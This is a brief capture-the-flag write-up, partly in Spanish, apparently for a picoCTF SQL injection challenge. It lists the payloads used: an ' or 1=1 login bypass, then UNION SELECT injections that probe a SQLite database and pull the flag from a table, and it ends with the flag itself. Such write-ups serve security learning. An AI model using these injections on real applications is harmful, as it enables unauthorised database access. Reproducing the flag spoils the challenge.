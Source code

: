## Descripción:
Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

# Solución
' or 1=1; En la tabla en el espacio de pasword

ciudad' union select 1,2,3;
ciudad' union select sqlite_version(),2,3;

ciudad' union select 1,2,flag from more_table;

Respuesta:`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}`
## Notas

## Referencias
 